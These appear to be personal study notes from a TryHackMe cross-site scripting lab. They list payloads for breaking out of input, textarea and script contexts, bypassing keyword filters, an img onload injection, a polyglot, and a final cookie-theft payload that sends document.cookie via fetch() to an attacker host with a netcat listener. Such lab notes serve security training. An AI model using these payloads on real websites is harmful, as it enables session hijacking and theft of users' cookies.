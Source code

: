 # Scenarios
### If you enter information into a field and it returns that info on a page such as:
![49444bf865cdc230d9855b53d93745c6.png.png](49444bf865cdc230d9855b53d93745c6.png)
-  Test for 
```
<script>alert('THM');</script>
```

### If your response is being reflected through an input tag:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)
- It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to escape the input tag first so the payload can run properly. You can do this with the following payload: 
```
"><script>alert('THM');</script>
```
- the `">` which closes the value parameter and then closes the input tag.  This now closes the input tag properly and allows the JavaScript payload to run:
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/21a6597c0964f08c69ebffbf014a886a.png)

### same as the previous, but your name gets reflected inside an HTML tag, this time the textarea tag:
![c3d0d38d23fab0608bc3ca8b9441974c.png](Cybersecurity/Screenshots/c3d0d38d23fab0608bc3ca8b9441974c.png)
- to escape the textarea tag, use the following payload: 
```
</textarea><script>alert('THM');</script>
```
- `</textarea>` causes the textarea element to close so the script will run.

### your name gets reflected in some JavaScript code.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/80fd5abe95b63ce52ff0ff9f9f6f6d57.png)
- You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload 
```
';alert('THM');//
```
- The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

### if you try the `<script>alert('THM');</script>` payload, it won't work. When you view the page source, you'll see why.  
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/9bd2142b2bcd4b4cba34e571550294e4.png)  
- The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.  
- When a word gets removed from a string, there's a helpful trick that you can try:
**Original Payload:**
`<sscriptcript>alert('THM');</sscriptcript>`

**Text to be removed (by the filter):**
`<sscriptcript>alert('THM');</sscriptcript>`

**Final Payload (after passing the filter):**
`<script>alert('THM');</script>`

- To do this, use the following payload:
```
<sscriptcript>alert('THM');</sscriptcript>
```

### When prompted to enter an image path
Here, where we had to escape from the value attribute of an input tag, we can try `"><script>alert('THM');</script>` , but that doesn't seem to work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8856b113fd514db704157837a6e6aeb4.png)  
- You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. 
- The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.
- change our payload to reflect this:
```
/images/cat.jpg" onload="alert('THM');
``` 
- Then viewing the page source, and you'll see how this will work.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3260719921aba8ad6eb8d887094fcb87.png)

### Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/ -!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
-  XSS polyglots are useful for **quick and broad** testing, but they **aren't enough** for thorough XSS testing. You’ll need to craft **context-specific payloads** to evade filters, WAFs, and different sanitization methods.

### Extract cookies when another user visits the same site and loads our script
Our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice.
1. Firstly, we'll need to set up a listening server to receive the information. `nc -lnvp PORT`
2. Build the payload:
```
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the request catcher URL or your IP address from your attacking box
- `PORT_NUMBER` is the port number you are using to listen for connections on 
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.
3. Wait for the connection


